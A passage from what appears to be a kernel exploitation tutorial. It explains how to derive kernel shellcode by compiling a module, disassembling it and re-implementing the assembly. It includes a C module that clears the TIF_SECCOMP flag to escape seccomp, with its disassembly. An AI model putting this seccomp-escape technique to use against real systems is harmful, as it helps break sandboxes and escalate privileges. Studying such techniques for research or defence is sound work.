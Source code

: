 - Write a kernel module in C with the actions you want your shellcode to do.

- Build it for the kernel you want to attack.

- Reverse-engineer it to see how these actions work in assembly.

- Re-implement that assembly in your shellcode!

This insane process will preserve your sanity.

### Offsets Resolution

The above mentioned process seems very easy but there is catch when we compile the modules using kbuild compiler adds many relative instruction by that i means they will be resolve at load time with help of module symbol and relocation table let's understand this with help of example.

Consider this module 
```c
#include <linux/module.h>
#include <linux/kernel.h>
#include<linux/sched.h>

MODULE_LICENSE("GPL");

int init_module(void)

{

    printk(KERN_INFO "Hello i'll beat you seccomp\n");

    current->thread_info.flags &= ~ (1 << TIF_SECCOMP);

    return 0;

}

void cleanup_module(void)

{
    printk(KERN_INFO "Escaped lol!");

}
```

This module can be used to escape the seccomp filter when we will compile this module and try to look at assembly we will get something like this.


```
Disassembly of section .text.unlikely:

0000000000000000 <init_module>:
   0:   48 c7 c7 00 00 00 00    mov    rdi,0x0
   7:   e8 00 00 00 00          call   c <init_module+0xc>
   c:   65 48 8b 04 25 00 00    mov    rax,QWORD PTR gs:0x0
  13:   00 00 
  15:   48 81 20 ff fe ff ff    and    QWORD PTR [rax],0xfffffffffffffeff
  1c:   31 c0                   xor    eax,eax
  1e:   c3                      ret    

000000000000001f <cleanup_module>:
  1f:   55                      push   rbp
  20:   48 c7 c7 00 00 00 00    mov    rdi,0x0
  27:   48 bd 70 77 6e 2e 63    movabs rbp,0x6c6c6f632e6e7770
  2e:   6f 6c 6c 
  31:   53                      push   rbx
  32:   bb 00 01 00 00          mov    ebx,0x100
  37:   e8 00 00 00 00          call   3c <cleanup_module+0x1d>
```
